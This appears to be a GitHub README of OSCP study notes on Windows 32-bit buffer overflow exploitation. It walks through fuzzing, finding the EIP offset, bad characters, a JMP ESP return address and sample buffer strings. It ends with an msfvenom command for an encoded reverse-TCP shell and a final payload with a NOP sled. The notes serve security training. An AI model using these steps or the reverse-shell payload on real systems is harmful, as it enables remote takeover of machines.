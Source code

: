 # Win32-Buffer-Overflow
 Notes and scripts for a basic windows 32-bit buffer overflow exploit development. Aimed for OSCP preparation.

# Introduction

## First some basics!

**Some basic understanding of buffer overflow can be found [here](https://www.youtube.com/watch?v=1S0aBV-Waeo).**

The x86 architecture does contain 8 general registers that are used to store data and then can address that point to other positions in the memory.

* EBP (base pointer)
* ESP (stack pointer)
* EAX (accumulator)
* EBX (base)
* ECX (counter)
* EDX (data)
* EDI (destination index)
* ESI (source index)

**EIP**: Extended Instruction Pointer. This is a read-only register and does contain the address of the next instruction to be executed (tells the CPU what to do next).

**ESP**: Extended Stack Pointer. Points to the top of the stack (at any time) at the lower memory location.

**EBP**: Extended Base Stack Pointer. Points to higher address (last item) at the bottom of the stack.

**JMP**: In the x86 assembly language, the JMP instruction performs an unconditional jump. Such an instruction transfers the flow of execution by changing the instruction pointer register. 

This should give a good idea about "what" and "why" of **JMP-ESP** [here](https://security.stackexchange.com/questions/157478/why-jmp-esp-instead-of-directly-jumping-into-the-stack). The OPCODE for JMP ESP is \xff\xe4 (in assembly). 
* * *


# tl;dr

**Steps:**
- [ ] Find offset
- [ ] Ensure control over EIP at found offset (4 B’s)
- [ ] Find bad characters
- [ ] Find return address (JMP ESP)
- [ ] Ensure EIP overwrite (Breakpoint - F2 - at return address )
- [ ] Ensure buffer length for shellcode is good enough
- [ ] Get a shell

# Global Steps

*Note: These steps are a reminder of the global Windows buffer overflow and are not intended to be a manual :)*

**Step 1**: fuzz till crash and note EIP is overwritten by A's (x41).

**Step 2**: use pattern_create.rb to generate unique string and send it to target
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700`

**Step 3**: identify 4 bytes that overwrite EIP (this is in HEX)

**Step 4**: use pattern_offset.rb to calculate the offset of these specific 4 bytes
`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2700 -q 39694438`

**Step 5**: send new buffer string to check if we can control the EIP register, since it should be written over with B's. Add to exploit and notice the result of the ESP and EIP registers:
`buffer = "A" * 2606 + "B" * 4 + "C" * 90`

**Step 6**: check if more space within buffer is available (increase buffer length from 2700 to 3500 bytes and see if this results in a larger buffer space for our shellcode). Fire up “morespace.py” -> right click ESP -> follow in dump. Add to exploit and check for C's:
`buffer = "A" * 2606 + "B" * 4 + "C" * (3500 – 2606 - 4)`

**Step 7**: check for bad chars (0x00 to 0xff). Paste all these chars within buffer and check where ESP register dump is truncated (p. 161). Right click ESP and follow in dump to see.
`Notice skipped chars!`

**Step 8**: if we can't jump directly to our buffer, we need to find a reliable address in memory that contains an instruction such as JMP ESP. We could jump to it, and in turn end up at the address pointed to, by the ESP register, at the time of the jump. This would be a reliable indirect way to reacht the memory indicated by ESP register. mona.py can help identify modules in memory that we can search for return address (no DEP and ASLR should be present and high memory range that doesn't contain bad chars)
`!mona modules`
*Check if not being affected by any memory protection schemes (Rebase, SafeSEH, ASLR, NXCompat) and note the specific DLL (right column).*

**Step 9**: JMP ESP equivalent = opcode.
```
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > jmp esp
00000000  FFE4              jmp esp
```
*Note result as: "\xff\xe4"*

**Step 10**: use mona to find the JMP ESP memory address within the DLL found in step 8. Use one which does not contain any bad chars.
`!mona find -s "\xff\xe4" -m <dllname>.dll`

**Step 11**: pause Immunity Debugger and follow the address (black arrow pointing to right: "Expression to follow"). Note if the JMP ESP is found (pane left above).

**Step 12**: set a breakpoint to check if we can reach the JMP ESP.
*left upper pane -> right click -> go to expression
left upper pane -> right click -> breakpoint -> toggle (F2)
play and do the following:
Add to PoC (the memory address is the one we found in step 10, noted Little Endian):*
`buffer = "A" * 2606 + "\x8f\x35\x4a\x5f" + "C" * 390`
*Run PoC and check if breakpoint is hit (message at the bottom of Immunity Debugger).*

**Step 13**: generate reverse shell
`msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"`

**Step 14**: add the reverse shell code to the exploit and change to:
`buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + shellcode`
*Increase NOP slide if needed*

* * *

# Methodology

[1. Connection](1_Connection.md)

[2. Fuzzing](2_Fuzzing.md)

[3. Getting Offset](3_Getting-Offset.md)

[4. Controlling EIP](4_Controlling-EIP.md)

[5. Badcharacters](5_Badchars.md)

[6. Finding JMP Pointer](6_Finding-JMP-Pointer.md)

[7. JMP ESP](7_JMP-ESP.md)

[8. Obtaining a Shell](8_Shell.md)

* * *


